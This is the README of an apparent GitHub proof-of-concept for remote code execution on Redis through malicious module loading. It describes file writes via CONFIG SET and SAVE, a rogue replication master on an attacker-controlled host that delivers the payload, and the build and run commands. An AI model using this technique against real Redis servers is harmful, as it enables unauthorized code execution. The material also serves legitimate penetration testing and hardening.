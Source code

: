 # redis-module-rce

A practical Proof-of-Concept (PoC) demonstrating remote code execution (RCE) in Redis via module loading. This exploit targets Redis instances with misconfigurations or weak security controls that allow loading of arbitrary `.so` modules into the Redis server process. This project is built on the foundational work of the following two excellent PoCs:

- [Redis Rogue Server Exploit](https://github.com/n0b0dyCN/redis-rogue-server)
- [Redis Module for Code Execution](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

All credit to the original authors for their research and contributions.

## Vulnerability Overview

This vulnerability leverages Redis's ability to load shared object (`.so`) modules at runtime. If an attacker can gain access to an exposed or misconfigured Redis instance, they can execute arbitrary code on the target system. Exploitation requires two conditions to be met:

1. **Privileged Access to Redis**
   - The attacker must be able to issue privileged Redis commands such as `MODULE LOAD`.
   - This is possible if:
     - The Redis instance is exposed to the internet without authentication.
     - The attacker has acquired valid credentials to an authenticated instance.
   - Redis does not restrict module loading by default. Unless explicitly disabled, this capability is broadly accessible in insecure deployments.

2. **Writable Location on Target Filesystem**
   - The attacker must be able to place a malicious `.so` file on the target machine.
   - Two main techniques can be used:
       - Abuse Redis’s persistence settings: using `CONFIG SET dir` and `CONFIG SET dbfilename`, combined with `SAVE`, an attacker can write arbitrary files to locations such as `/tmp/`.
       - Upload externally: if another service (e.g., FTP) exposes a writable path, the attacker can upload the `.so` file and instruct Redis to load it by its absolute path.

Once the malicious module is in place, Redis will load it and execute the attacker's code within the server's process space, effectively achieving RCE.

## Project Structure

```bash
.
├── redis-rce.py          -> Exploit script (Python)
└── module/
    ├── module.c          -> Malicious Redis module source
    ├── redismodule.h     -> Redis module API header
    └── Makefile          -> Build file for compiling module.so
```

## Requirements

- Python 3.x
- GCC (for compiling the malicious module)
- Redis server (v4.0 or later)
- Target Redis instance must be:
  - Accessible from the attacker's machine
  - Accepting configuration changes (`CONFIG SET`, `MODULE LOAD`, etc.)

## Building the Module

To compile the malicious `.so` module:
```bash
cd module
make
```
This will generate the shared object file: `module.so`

## Running the Exploit

Basic usage:

```bash
python3 redis-rce.py --rhost <target_ip> --lhost <your_ip>
```

Arguments:
```bash
--rhost     Target Redis host (IP or hostname)
--lhost     Local IP of attacker (used to serve `module.so`)
--lport     Port the rogue server will listen on (default `6379`)
--exp       Path to the compiled `.so` file (default `module.so`)
```

Example:
```bash
python3 redis-rce.py --rhost 10.10.10.100 --lhost 192.168.45.100 --lport 6379 --exp module/module.so
```
Note: The exploit script includes a rogue server that mimics a Redis master. When the target is tricked into becoming a slave of this rogue server, it fetches and writes the malicious payload to disk, which is then loaded via `MODULE LOAD`.

## Disclaimer

This tool is provided for educational and research purposes only. Unauthorized use against targets without explicit permission is strictly prohibited. The authors accept no liability for any misuse or damage caused by this software.

